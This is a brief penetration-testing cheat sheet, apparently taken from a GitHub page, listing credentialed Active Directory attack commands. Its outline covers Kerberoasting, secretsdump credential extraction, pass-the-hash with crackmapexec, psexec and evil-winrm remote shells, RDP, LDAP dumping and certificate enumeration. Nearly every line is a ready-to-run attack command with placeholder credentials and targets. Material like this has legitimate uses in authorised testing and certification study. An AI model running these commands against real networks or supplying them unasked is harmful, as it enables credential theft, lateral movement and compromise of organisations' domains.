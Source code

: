 - Credentialed
	- Kerberoast
		- sudo proxychains impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC-IP -request
	- Secrets dump
		- Password
			- impacket-secretsdump USER:PASS@$IP
		- NTLM Hash
			- impacket-secretsdump -hashes ':NTLM' USER@$IP
	- SMB
		- Password
			- crackmapexec smb $IP -u USER -p PASS --shares
		- NTLM Hash
			- crackmapexec smb $IP -u USER -H 'NTLM' --shares
		- If C$ writable
			- impacket-psexec DOMAIN/USER:'PASS'@$IP
	- Winrm
		- Password
			- crackmapexec winrm $IP -u USER -p PASS
		- NTLM Hash
			- crackmapexec winrm $IP -u USER -H 'NTLM'
		- Connect
			- Password
				- evil-winrm -i $IP -u USER -p PASS
			- NTLM
				- evil-winrm -i $IP -u USER -H NTLM
	- RDP
		- xfreerdp /v:$IP /u:USER /p:PASS
	- LDAP
		- Password
			- `ldapdomaindump ldap://$DC-IP -u 'DOMAIN\USER' -p 'PASS'
		- Certificates
			- certipy-ad find -username USER@DOMAIN.com -password 'PASS' -dc-ip $DC-IP -debug -scheme ldap